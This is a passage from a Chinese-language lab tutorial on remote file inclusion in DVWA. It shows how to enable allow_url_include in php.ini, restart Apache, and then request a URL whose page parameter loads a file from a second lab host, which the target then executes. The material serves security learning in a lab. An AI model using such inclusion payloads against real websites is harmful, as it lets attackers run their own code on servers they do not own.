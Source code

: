 在终端中是用 `sudo vim /etc/php5/cgi/php.ini` 来修改 php 的全局配置文件：

![config-phpini](../imgs/wm_165.png)

找到我们刚刚看到的两个配置参数：

![modify-config](../imgs/wm_166.png)

使用 `:wq` 保存我们的修改。

然后使用 `sudo /etc/init.d/apache2 restart` 命令重启一下，使得配置文件生效：

![restart-apache](../imgs/wm_167.png)

此时我们再次尝试访问这个 URL，就可以正常访问了：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/phpinfo.txt
```

由此可以看出它能够正常的执行远在我服务器上的 phpinfo.txt 文件，这就是远程文件包含，并且我们可以看到配置，其中 allow_url_include 的设置是 On，说明就是在靶机中执行的，因为默认情况下在 php5 中该配置选项是 Off 的。
